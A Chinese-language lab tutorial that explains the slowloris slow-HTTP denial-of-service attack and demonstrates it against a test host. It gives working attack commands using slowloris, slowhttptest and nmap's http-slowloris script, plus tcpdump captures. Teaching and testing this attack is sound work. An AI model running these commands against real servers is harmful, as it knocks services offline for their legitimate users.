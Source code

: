 # 网络安全：慢速DoS攻击解析（slowloris）

## 一、介绍

**目的**：耗尽服务器的线程池，使服务器不能响应别的用户。

**漏洞描述**：以低速向服务器发送HTTP请求，长时间保持本该释放的连接不释放。服务器达到并发连接数上限后，便无法接受新的请求，即导致拒绝服务。

## 二、解析

使用工具`slowloris`请求一次连接，使用`tcpdump`抓取`TCP`握手过程。

- 请求抓取（攻击机发送至靶机）
  
  ```bash
  tcpdump dst khdxs7.test and port 80
  ```

- 响应抓取（靶机发送至攻击机）
  
  ```bash
  tcpdump src khdxs7.test and port 80
  ```

- 发动攻击
  
  ```bash
  slowloris -v khdxs7.test -p 80 -s 1 --sleeptime 10000
  ```
  
  > 可以清晰地看到`TCP`从握手连接到超时断开的过程。

## 三、演示

使用工具`slowhttptest`来发动攻击。

- 攻击前可正常打开页面
  
  ```bash
  firefox khdxs7.test
  ```

- 以`slowloris`模式发动攻击，请求连接总数为300。
  
  ```bash
  slowhttptest -c 300 -H -g -o slowloris -i 10 -r 200 -t GET -u http://khdxs7.test -x 24 -p 3
  ```
  
  > 发起攻击后无法正常打开页面。

- 打开`slowloris.html`文件可查看统计图表（需要连接谷歌服务）
  
  ```bash
  chromium slowloris.html
  ```

---

**附：**

nmap插件同样可以发起`slowloris`攻击

```bash
nmap --max-parallelism 800 --script http-slowloris khdxs7.test -p80
```
